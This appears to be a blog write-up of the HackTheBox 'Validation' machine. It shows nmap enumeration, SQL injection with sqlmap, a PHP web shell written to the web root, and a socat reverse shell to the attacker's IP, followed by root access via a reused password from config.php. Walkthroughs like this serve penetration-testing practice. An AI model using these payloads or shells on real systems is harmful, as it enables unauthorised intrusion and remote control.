






")

Welcome Reader, Today we'll hack Validation from HackTheBox. Linux -- Easy

## Enumeration
We will start with an nmap scan.

```bash
~ $ nmap -sC -sV -A 10.10.11.116 -p1-10000
Nmap scan report for 10.10.11.116
Host is up (0.19s latency).

PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   202.75 ms 10.10.14.1
2   202.83 ms 10.10.11.116
```

---
### Web Server

Taking a look at the website.


Let's do SQL injection using [sqlmap](https://github.com/sqlmapproject/sqlmap).

> SQLMap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.
```bash
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: user=5d56f010021ebd2c4d8df30a4b971611
Connection: close

username=htb&country=Brazil
```
```bash
sqlmap -r valid --batch
```



Further Enumeration of database.

```bash
sqlmap -r valid --batch --banner --current-user --current-db --is-dba
```



Further checking my privileges I noticed that I could write files to the server. We can confirm that with SQLMap.

```bash
sqlmap -r valid --batch --privileges
```

## Initial Foothold

Let upload the a web shell using SQLMap.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

```bash
sqlmap -r valid --batch --file-write=shell.php --file-dest=/var/www/html/shell.php
```



I used to pop a reverse shell.
> Socat (for SOcket CAT) establishes two bidirectional byte streams and transfers data between them.

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:4444
```





## Privileges Escalation

Cheking the config.php file I found a password I tried that password for root and It worked lol.



Thanks for reading — Happy Hacking :)